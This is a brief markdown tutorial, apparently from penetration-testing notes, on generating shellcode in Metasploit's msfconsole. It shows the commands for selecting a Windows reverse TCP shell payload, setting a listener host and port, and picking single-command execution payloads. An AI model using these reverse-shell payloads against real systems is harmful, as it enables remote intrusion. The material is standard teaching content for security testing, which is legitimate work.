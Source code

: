 # Generate shellcode

An easy way to generate shellcode is by using `msfvenom` or `msconsole`.

## Msfconsole

In msfconsole you have the keyword `generate` that help us generate shellcode. So first we have to select a payload.

```
use payload/windows/shell_reverse_tcp
```

Now we set the variables as usual

```
set LPORT 5555
set LHOST 192.168.0.101
```

Now we generate the shellcode using the command `generate`.

To see the options use `generate -h`

## Single commands in windows

If you don't have space and only want to execute a single command you can use

```
use payload/windows/exec

use payload/cmd/windows/generic
```




